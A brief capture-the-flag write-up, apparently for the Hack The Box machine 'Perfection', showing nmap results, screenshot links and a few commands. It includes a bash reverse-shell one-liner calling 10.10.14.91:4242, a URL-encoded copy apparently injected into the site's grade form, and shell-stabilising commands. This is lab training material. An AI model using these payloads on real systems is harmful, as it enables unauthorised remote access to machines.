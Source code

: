 # Perfection Write-up

<img src="https://labs.hackthebox.com/storage/avatars/57fc0f58916cb3ed8e793db071769d70.png" width="200" height="200">

##  Nmap

`nmap -sC -sV perfection.htb`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
    |_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
    80/tcp open  http    nginx
    |_http-title: 502 Bad Gateway
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Visit perfection.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/4ddecf13-024d-4b4a-b639-a7c8f614d947)

`perfection.htb/weighted-grade`

![image](https://github.com/zer00d4y/writeups/assets/128820441/143b1c47-9688-4429-923e-70f885b9a963)

Wappalyzer Ruby

![image](https://github.com/zer00d4y/writeups/assets/128820441/796cd7b9-4510-41b3-bf95-7a3a0039db5f)



![image](https://github.com/zer00d4y/writeups/assets/128820441/e63b50c3-2697-41fe-916a-56e07e04e2a9)

![image](https://github.com/zer00d4y/writeups/assets/128820441/a5a65d54-a81a-48ca-82b3-a7f189e03369)

![image](https://github.com/zer00d4y/writeups/assets/128820441/61c5f7f4-4e29-48cb-87c1-48f9aac3ab61)

bash -c 'bash -i >& /dev/tcp/10.10.14.91/4242 0>&1

bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.91/4242+0>%261'

![image](https://github.com/zer00d4y/writeups/assets/128820441/23ec8526-0b18-49bf-b1f2-49bc24bdb763)

![image](https://github.com/zer00d4y/writeups/assets/128820441/583ba02d-ec4b-46ea-a614-9c096d09dfc1)

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

ctrl + z

`stty raw -echo; fg`

![image](https://github.com/zer00d4y/writeups/assets/128820441/0a989f9d-3fc2-42db-9685-fe58d14f5d5f)







